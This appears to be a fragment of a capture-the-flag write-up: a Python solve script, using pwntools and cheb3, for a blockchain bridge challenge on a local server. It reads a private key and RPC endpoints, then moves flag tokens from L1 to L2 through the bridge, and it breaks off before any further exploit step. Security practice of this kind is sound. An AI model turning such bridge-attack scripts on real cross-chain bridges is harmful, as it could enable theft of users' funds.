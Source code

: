 ### Exploitation

```py
import pwn
from time import sleep
from cheb3 import Connection
from cheb3.utils import compile_sol, encode_with_signature, decode_data

bridge_abi, _ = compile_sol(
    """
interface IBridge {
    function remoteTokenToLocalToken(address) external view returns (address);
    function ERC20Out(address token, address to, uint256 amount) external;                       
}
""",
    solc_version="0.8.20",
)["IBridge"]
flag_token_abi, _ = compile_sol(
    """
interface IFlagToken {
    function approve(address spender, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}
""",
    solc_version="0.8.20",
)["IFlagToken"]

HOST = "localhost"
PORT = 1337
svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"action?", b"1")

svr.recvuntil(b"rpc endpoints:")
l1 = Connection(svr.recvline_contains(b"l1").replace(b"-", b"").strip().decode())
l2 = Connection(svr.recvline_contains(b"l2").replace(b"-", b"").strip().decode())

priv = svr.recvline_contains(b"private").split(b":")[-1].strip().decode()
setup = svr.recvline_contains(b"challenge").split(b":")[-1].strip().decode()
svr.close()

l1account = l1.account(priv)
l2account = l2.account(priv)

bridge = decode_data(
    l1account.call(setup, data=encode_with_signature("BRIDGE()")), ["address"]
)
l1bridge = l1.contract(l1account, address=bridge, abi=bridge_abi)
l2bridge = l2.contract(l2account, address=bridge, abi=bridge_abi)

flag_token_addr = decode_data(
    l1account.call(setup, data=encode_with_signature("FLAG_TOKEN()")), ["address"]
)
flag_token = l1.contract(l1account, address=flag_token_addr, abi=flag_token_abi)

# Transfer FlagTokens from L1 to L2
flag_token.functions.approve(bridge, int(1e18)).send_transaction()
l1bridge.functions.ERC20Out(
    flag_token_addr, l2account.address, int(1e18)
).send_transaction()

# Waiting for message to be relayed
sleep(2)

```